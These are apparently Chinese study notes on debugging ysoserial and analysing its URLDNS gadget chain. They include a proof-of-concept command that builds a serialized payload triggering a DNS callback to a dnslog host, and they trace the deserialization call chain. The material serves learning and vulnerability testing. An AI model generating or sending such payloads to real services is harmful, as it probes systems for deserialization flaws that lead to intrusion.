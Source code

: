 # ysoserial如何调试
对java和ysoserial的调试文章: https://t.zsxq.com/ubQRvjq  
从如下插件可看出主文件在ysoserial.GeneratePayload
```text
<plugin>
	<artifactId>maven-assembly-plugin</artifactId>
	<configuration>
		<finalName>${project.artifactId}-${project.version}-all</finalName>
		<appendAssemblyId>false</appendAssemblyId>
		<archive>
			<manifest>
				<mainClass>ysoserial.GeneratePayload</mainClass>
			</manifest>
		</archive>
          <descriptor>assembly.xml</descriptor>
      </configuration>
	<executions>
		<execution>
			<id>make-assembly</id>
			<phase>package</phase>
			<goals>
				<goal>single</goal>
			</goals>
		</execution>
	</executions>
</plugin>
```

# URLDNS
ysoserial文章: https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/  
回显使用的burpsuite Collaborator: https://blog.csdn.net/fageweiketang/article/details/89073662  
## poc
```bash
java -jar ysoserial.jar URLDNS http://m2p55h.dnslog.cn > ysoserial/urldns.ser
```

## 分析
URL的equals()和hashCode()会触发dns请求域名相应的ip地址  
https://docs.oracle.com/javase/7/docs/api/java/net/URL.html#equals(java.lang.Object)  

```text
发送网络请求的调用链条
HashMap#readObject
HashMap#hash
URL#hashCode
URLStreamHandler#hashCode
URLStreamHandler#getHostAddress (根据主机名获取其ip地址 相当于网络请求)
```
就相当于, 我们反序列化了一个数据, 结果却向某个网站发起了请求, 这个就是反序列化漏洞